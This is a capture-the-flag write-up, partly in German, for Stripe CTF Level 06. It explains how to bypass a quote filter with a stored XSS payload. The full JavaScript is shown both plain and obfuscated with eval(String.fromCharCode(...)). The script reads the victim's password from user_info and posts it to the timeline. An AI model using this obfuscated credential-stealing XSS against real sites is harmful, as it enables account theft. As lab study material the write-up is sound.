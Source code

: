LEVEL 06
========

XSS vulnerability, only ' & " are not allowed, add < script >.

    $.get('https://level06-2.stripe-ctf.com/user-gdnipyajcv/user_info',
      function(data) {
        var password = /Password:<\/th>\s+<td>(.+)<\/td>/.exec(data)[1];
        var res = '';
        for (var i = 0; i < password.length; i++) {
          res += password.charCodeAt(i) + ", ";
        }
        console.log(res);
        $("#content").val(res);
        $("#new_post").submit();
      })

Escape with JavaScript String.charCodeAt()

[http://www.w3schools.com/jsref/jsref_charcodeat.asp](http://www.w3schools.com/jsref/jsref_charcodeat.asp)
[http://www.w3schools.com/jsref/jsref_fromcharcode.asp](http://www.w3schools.com/jsref/jsref_fromcharcode.asp)
[http://www.w3schools.com/jsref/jsref_eval.ASP](http://www.w3schools.com/jsref/jsref_eval.ASP)
[http://jdstiles.com/java/cct.html](http://jdstiles.com/java/cct.html)

---

Aus dem Quelltext kann man lesen, dass sowohl ' als auch " in jeglichen Eingabefeldern zu einem 500 Internal Server Error führen - eine SQL Injection kann man also schon ausschließen. Interessant ist, dass in der _views/home.erb_ der @username direkt in das Javascript geschrieben wird. Das können wir ausnutzen, indem wir unseren Username pimpen - das gleiche funktioniert hier übrigens genau so mit Posttitel und Postbody... Wie auch immer. Weil sich hier der Nutzer, auf dessen Passwort wir scharf sind, auch alle paar Minuten einloggt ist mal wieder eine Cross Server Scripting Vulnerability präsent. Wir müssen also ein Javascript schreiben, dass in einen Post passt, ausgeführt wird, die URL user_info aufruft, das Passwort von dort parsed und in die Timeline postet. Einziges Hindernis: wir dürfen in keinem Textfeld ' oder " verwenden... Der Ausweg aus diesem Problem ist so einfach, dass man meistens gar nicht daran denkt... Jedes Char in unserem String hat eine Nummer!  Durch die Methoden charCodeat() und fromCharCode() können wir unser Script in eine Reihe von zahlen umwandeln, mit eval() können wir das so geparste Script ausführen. 

    $.get('https://level06-2.stripe-ctf.com/user-XXXX/user_info',
      function(data) {
        var password = /Password:<\/th>\s+<td>(.+)<\/td>/.exec(data)[1];
        var res = '';
        for (var i = 0; i < password.length; i++) {
          res += password.charCodeAt(i) + ", ";
        }
        console.log(res);
        $("#content").val(res);
        $("#new_post").submit();
      })

Das Script parsed also das Passwort von der user_info Seite, wandelt es in seine Charcodes um und postet es in die Timeline. Ohne Umwandlung in die Charcodes geht es nicht, da das Passwort es paranoiden Users aus Sonderzeichen inklusive ' und " besteht. (Siehe Beschreibungstext) Ganz einfach lässt sich das Script über diese Seite umwandeln: [http://jdstiles.com/java/cct.html](http://jdstiles.com/java/cct.html)
So würde es bspw. am Ende aussehen:

    </script><script>eval(String.fromCharCode(36, 46, 103, 101, 116, 40, 39, 104, 116, 116, 112, 115, 58, 47, 47, 108, 101, 118, 101, 108, 48, 54, 45, 50, 46, 115, 116, 114, 105, 112, 101, 45, 99, 116, 102, 46, 99, 111, 109, 47, 117, 115, 101, 114, 45, 103, 100, 110, 105, 112, 121, 97, 106, 99, 118, 47, 117, 115, 101, 114, 95, 105, 110, 102, 111, 39, 44, 10, 32, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 100, 97, 116, 97, 41, 32, 123, 10, 32, 32, 32, 32, 118, 97, 114, 32, 112, 97, 115, 115, 119, 111, 114, 100, 32, 61, 32, 47, 80, 97, 115, 115, 119, 111, 114, 100, 58, 60, 92, 47, 116, 104, 62, 92, 115, 43, 60, 116, 100, 62, 40, 46, 43, 41, 60, 92, 47, 116, 100, 62, 47, 46, 101, 120, 101, 99, 40, 100, 97, 116, 97, 41, 91, 49, 93, 59, 10, 32, 32, 32, 32, 118, 97, 114, 32, 114, 101, 115, 32, 61, 32, 39, 39, 59, 10, 32, 32, 32, 32, 102, 111, 114, 32, 40, 118, 97, 114, 32, 105, 32, 61, 32, 48, 59, 32, 105, 32, 60, 32, 112, 97, 115, 115, 119, 111, 114, 100, 46, 108, 101, 110, 103, 116, 104, 59, 32, 105, 43, 43, 41, 32, 123, 10, 32, 32, 32, 32, 32, 32, 114, 101, 115, 32, 43, 61, 32, 112, 97, 115, 115, 119, 111, 114, 100, 46, 99, 104, 97, 114, 67, 111, 100, 101, 65, 116, 40, 105, 41, 32, 43, 32, 34, 44, 32, 34, 59, 10, 32, 32, 32, 32, 125, 10, 32, 32, 32, 32, 99, 111, 110, 115, 111, 108, 101, 46, 108, 111, 103, 40, 114, 101, 115, 41, 59, 10, 32, 32, 32, 32, 36, 40, 34, 35, 99, 111, 110, 116, 101, 110, 116, 34, 41, 46, 118, 97, 108, 40, 114, 101, 115, 41, 59, 10, 32, 32, 32, 32, 36, 40, 34, 35, 110, 101, 119, 95, 112, 111, 115, 116, 34, 41, 46, 115, 117, 98, 109, 105, 116, 40, 41, 59, 10, 32, 32, 125, 41));</script><script>

Fügen wir das nun in einen Post ein und warten ab, so wird unser Opfer unwissentlich sein Passwort posten. Abfragen können wir es dann bequem über _ajax/posts_, ohne dass wir selbst unser Passwort erneut posten. 